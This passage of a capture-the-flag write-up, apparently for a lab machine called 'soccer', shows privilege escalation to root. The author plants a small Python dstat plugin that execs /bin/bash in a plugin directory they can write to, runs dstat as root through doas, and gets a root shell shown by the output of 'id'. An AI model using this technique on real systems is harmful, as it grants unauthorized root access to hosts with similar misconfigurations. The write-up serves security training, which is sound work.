-rw-r--r--   1 root root 2.0K Jul 29  2019 dstat_mysql5_io.py
-rw-r--r--   1 root root 2.0K Jul 29  2019 dstat_mysql5_keys.py
-rw-r--r--   1 root root 1.4K Jul 29  2019 dstat_mysql_io.py
-rw-r--r--   1 root root 1.6K Jul 29  2019 dstat_mysql_keys.py
-rw-r--r--   1 root root 2.1K Jul 29  2019 dstat_net_packets.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_nfs3.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_nfs3_ops.py
-rw-r--r--   1 root root 1.3K Jul 29  2019 dstat_nfsd3.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_nfsd3_ops.py
-rw-r--r--   1 root root 4.4K Jul 29  2019 dstat_nfsd4_ops.py
-rw-r--r--   1 root root 3.0K Jul 29  2019 dstat_nfsstat4.py
-rw-r--r--   1 root root 2.0K Jul 29  2019 dstat_ntp.py
-rw-r--r--   1 root root  629 Jul 29  2019 dstat_postfix.py
-rw-r--r--   1 root root 2.2K Jul 29  2019 dstat_power.py
-rw-r--r--   1 root root  373 Jul 29  2019 dstat_proc_count.py
-rw-r--r--   1 root root  656 Jul 29  2019 dstat_qmail.py
-rw-r--r--   1 root root 1.4K Jul 29  2019 dstat_redis.py
-rw-r--r--   1 root root  750 Jul 29  2019 dstat_rpc.py
-rw-r--r--   1 root root  780 Jul 29  2019 dstat_rpcd.py
-rw-r--r--   1 root root  560 Jul 29  2019 dstat_sendmail.py
-rw-r--r--   1 root root 1.6K Jul 29  2019 dstat_snmp_cpu.py
-rw-r--r--   1 root root  809 Jul 29  2019 dstat_snmp_load.py
-rw-r--r--   1 root root 1.3K Jul 29  2019 dstat_snmp_mem.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_snmp_net.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_snmp_net_err.py
-rw-r--r--   1 root root 1.1K Jul 29  2019 dstat_snmp_sys.py
-rw-r--r--   1 root root  908 Jul 29  2019 dstat_snooze.py
-rw-r--r--   1 root root 1.7K Aug  4  2019 dstat_squid.py
-rw-r--r--   1 root root  547 Jul 29  2019 dstat_test.py
-rw-r--r--   1 root root 3.5K Jul 29  2019 dstat_thermal.py
-rw-r--r--   1 root root 2.8K Jul 29  2019 dstat_top_bio.py
-rw-r--r--   1 root root 3.3K Jul 29  2019 dstat_top_bio_adv.py
-rw-r--r--   1 root root 1.7K Jul 29  2019 dstat_top_childwait.py
-rw-r--r--   1 root root 1.9K Jul 29  2019 dstat_top_cpu.py
-rw-r--r--   1 root root 3.2K Jul 29  2019 dstat_top_cpu_adv.py
-rw-r--r--   1 root root 2.3K Jul 29  2019 dstat_top_cputime.py
-rw-r--r--   1 root root 2.6K Jul 29  2019 dstat_top_cputime_avg.py
-rw-r--r--   1 root root 2.0K Aug  4  2019 dstat_top_int.py
-rw-r--r--   1 root root 2.7K Jul 29  2019 dstat_top_io.py
-rw-r--r--   1 root root 3.2K Jul 29  2019 dstat_top_io_adv.py
-rw-r--r--   1 root root 2.3K Jul 29  2019 dstat_top_latency.py
-rw-r--r--   1 root root 2.4K Jul 29  2019 dstat_top_latency_avg.py
-rw-r--r--   1 root root 1.5K Jul 29  2019 dstat_top_mem.py
-rw-r--r--   1 root root 1.7K Jul 29  2019 dstat_top_oom.py
-rw-r--r--   1 root root  993 Jul 29  2019 dstat_utmp.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_vm_cpu.py
-rw-r--r--   1 root root 1.2K Jul 29  2019 dstat_vm_mem.py
-rw-r--r--   1 root root 1.5K Jul 29  2019 dstat_vm_mem_adv.py
-rw-r--r--   1 root root 2.8K Jul 29  2019 dstat_vmk_hba.py
-rw-r--r--   1 root root 3.2K Jul 29  2019 dstat_vmk_int.py
-rw-r--r--   1 root root 2.6K Jul 29  2019 dstat_vmk_nic.py
-rw-r--r--   1 root root 2.3K Jul 29  2019 dstat_vz_cpu.py
-rw-r--r--   1 root root 2.7K Jul 29  2019 dstat_vz_io.py
-rw-r--r--   1 root root 2.0K Jul 29  2019 dstat_vz_ubc.py
-rw-r--r--   1 root root  937 Jul 29  2019 dstat_wifi.py
-rw-r--r--   1 root root 1.3K Jul 29  2019 dstat_zfs_arc.py
-rw-r--r--   1 root root 1.4K Jul 29  2019 dstat_zfs_l2arc.py
-rw-r--r--   1 root root 1001 Jul 29  2019 dstat_zfs_zil.py
player@soccer:~$ 
```

Now, I just have to write a python code which would pop up a shell & write it into the directory.

```
player@soccer:~$ cat /usr/local/share/dstat/dstat_privesc.py 
import os;
os.execl("/bin/bash", "sh")
player@soccer:~$ 
```

```
player@soccer:~$ doas -u root /usr/bin/dstat --privesc
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.0# wc -c /root/root.txt 
33 /root/root.txt
sh-5.0# 
```

And I was able to impersonate as the `root` user & get the contents of the `/root/root.txt` flag as well.